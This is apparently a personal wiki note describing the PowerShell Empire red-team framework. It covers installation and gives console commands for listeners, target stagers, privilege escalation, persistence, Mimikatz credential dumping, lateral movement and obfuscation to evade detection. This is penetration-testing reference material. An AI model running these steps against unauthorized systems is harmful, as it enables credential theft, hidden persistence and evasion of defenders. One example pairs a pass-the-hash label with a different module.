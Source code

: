 ## Overview
PowerShell Empire is a post-exploitation framework that leverages PowerShell scripts and modules to provide robust capabilities for penetration testing and red team operations. It is designed to operate entirely in-memory, making it difficult to detect by traditional endpoint protection tools. PowerShell Empire supports a wide range of post-exploitation functionalities, including privilege escalation, credential harvesting, lateral movement, and persistence.

## Features
- **In-Memory Execution:** Executes payloads and modules entirely in-memory, avoiding writing to disk.
- **Modular Framework:** Includes a vast library of modules for various post-exploitation tasks.
- **Cross-Platform Compatibility:** Supports Windows, macOS, and Linux operating systems.
- **Stealth and Evasion:** Utilizes PowerShell and Python, which are often whitelisted in enterprise environments.
- **Customizable Agents:** Supports customizable agents that can be adapted for specific needs or environments.

## Website
- [PowerShell Empire GitHub Repository](https://github.com/BC-SECURITY/Empire)

## Installation

### On Unix-based systems (Linux/macOS):
1. **Install Dependencies:**
```sh
sudo apt-get update
sudo apt-get install powershell
sudo apt-get install git
sudo apt-get install python3-pip
```

2. **Clone the Empire Repository:**
```sh
git clone https://github.com/BC-SECURITY/Empire.git
cd Empire
```

3. **Install Empire:**
```sh
sudo ./setup/install.sh
```

### On Windows:
1. **Download and Install PowerShell:**
   - PowerShell Empire requires PowerShell to be installed. Download it from the [Microsoft PowerShell GitHub](https://github.com/PowerShell/PowerShell).

2. **Clone the Empire Repository:**
```sh
git clone https://github.com/BC-SECURITY/Empire.git
cd Empire
```

3. **Run the Setup Script:**
```sh
.\setup\install.ps1
```

## Basic Usage
PowerShell Empire is run from the command line interface (CLI). Here are some common commands and usage examples:

### Starting the Empire Server
1. **Run Empire:**
```sh
sudo ./empire
```

2. **Launch the Listener:**
   - In the Empire console, use:
```sh
listeners
```
   - Choose the listener type (e.g., `http`) and start it with:
```sh
uselistener http
execute
```

### Generating an Agent
1. **Generate a PowerShell Stager:**
```sh
usestager windows/launcher_bat
set Listener http
execute
```
   - Copy the generated PowerShell script to use on the target machine.

### Interacting with Agents
1. **List Active Agents:**
```sh
agents
```

2. **Interact with an Agent:**
```sh
interact <agent_name>
```

3. **Run a Module on an Agent:**
```sh
usemodule <module_name>
```
   - Example:
```sh
usemodule privesc/powerup/allchecks
execute
```

### Persistence Techniques
PowerShell Empire includes several modules to establish persistence on a compromised host:

- **Registry Persistence:**
```sh
usemodule persistence/elevated/registry
execute
```

- **Scheduled Task Persistence:**
```sh
usemodule persistence/elevated/schtasks
execute
```

## Advanced Features
PowerShell Empire offers several advanced features for more specific use cases:

### Credential Harvesting
- **Mimikatz Integration:**
  - Use the Mimikatz module to extract credentials from memory:
```sh
usemodule credentials/mimikatz/lsadump
execute
```

### Lateral Movement
- **Pass-the-Hash:**
  - Use the `pth` module to perform pass-the-hash attacks:
```sh
usemodule lateral_movement/invoke_wmi
execute
```

### Bypassing Detection
- **Obfuscate PowerShell Scripts:**
  - Use built-in obfuscation techniques to evade detection:
```sh
usestager windows/launcher_bat
set ObfuscateCommand True
execute
```

## Tools for Post-Exploitation Using PowerShell Empire

- **Credential Dumping:** Extract credentials from memory using modules like Mimikatz.
- **Privilege Escalation:** Use built-in modules to identify privilege escalation vectors.
- **Data Exfiltration:** Exfiltrate data over HTTP, HTTPS, or other covert channels.
- **Remote Execution:** Execute commands and scripts on compromised hosts.

## Best Practices
- **Limit Use to Authorized Testing:** Only use PowerShell Empire for authorized penetration testing and red team engagements.
- **Avoid Detection:** Use obfuscation and in-memory execution to minimize the risk of detection.
- **Clean Up After Use:** Remove all artifacts and persistence mechanisms after testing to avoid leaving backdoors.
- **Keep Empire Updated:** Regularly update PowerShell Empire to benefit from new features and modules.
- **Combine with Other Tools:** Use Empire alongside other post-exploitation frameworks like [[Metasploit]], [[Cobalt Strike]], and [[Responder]] for comprehensive assessments.

## References
- [PowerShell Empire GitHub Repository](https://github.com/BC-SECURITY/Empire)
- [Empire User Guide](https://bc-security.gitbook.io/empire-user-guide/)
- [PowerShell Security Best Practices](https://docs.microsoft.com/en-us/powershell/scripting/security/overview?view=powershell-7.1)

